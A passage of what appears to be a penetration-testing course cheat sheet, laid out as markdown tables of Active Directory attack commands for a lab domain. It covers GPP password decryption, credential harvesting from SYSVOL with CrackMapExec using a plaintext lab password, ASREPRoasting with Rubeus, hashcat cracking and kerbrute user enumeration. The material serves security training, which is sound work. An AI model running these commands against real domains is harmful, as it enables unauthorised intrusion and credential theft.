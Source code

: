 | `Get-DomainUser -UACFilter PASSWD_NOTREQD \| Select-Object samaccountname,useraccountcontrol` | PowerView tool used to check for the `PASSWD_NOTREQD` setting of select objects (`Select-Object`) on a target Windows domain from a Windows-based host. |

| `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`    | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |

  

# Group Policy Enumeration & Attacks

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`    | Tool used to decrypt a captured `group policy preference password` from a Linux-based host. |

| `crackmapexec smb -L \| grep gpp`                              | Locates and retrieves a `group policy preference password` using `CrackMapExec`, the filters the output using `grep`. Peformed from a Linux-based host. |

| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the `SYSVOL` share of a Windows target using `CrackMapExec` from a Linux-based host. |

| `Get-DomainGPO \| select displayname`                          | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host. |

| `Get-GPO -All \| Select DisplayName`                          | PowerShell cmd-let used to enumerate GPO names. Performed from a Windows-based host. |

| `$sid=Convert-NameToSid "Domain Users" `                     | Creates a variable called `$sid` that is set equal to the `Convert-NameToSid` tool and specifies the group account `Domain Users`. Performed from a Windows-based host. |

| `Get-DomainGPO \| Get-ObjectAcl \| ?{$_.SecurityIdentifier -eq $sid` | PowerView tool that is used to check if the `Domain Users`  (`eq $sid`) group has any rights over one or more GPOs. Performed from a Windows-based host. |

| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`         | PowerShell cmd-let used to display the name of a GPO given a `GUID`. Performed from a Windows-based host. |

  
  
  

# ASREPRoasting

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Get-DomainUser -PreauthNotRequired \| select samaccountname,userprincipalname,useraccountcontrol \| fl` | PowerView based tool used to search for the `DONT_REQ_PREAUTH` value across in user accounts in a target Windows domain. Performed from a Windows-based host. |

| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Uses `Rubeus` to perform an `ASEP Roasting attack` and formats the output for `Hashcat`. Performed from a Windows-based host. |

| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt ` | Uses `Hashcat` to attempt to crack the captured hash using a wordlist (`rockyou.txt`). Performed from a Linux-based host. |

| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt ` | Enumerates users in a target Windows domain and automatically retrieves the `AS` for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |

  
  
  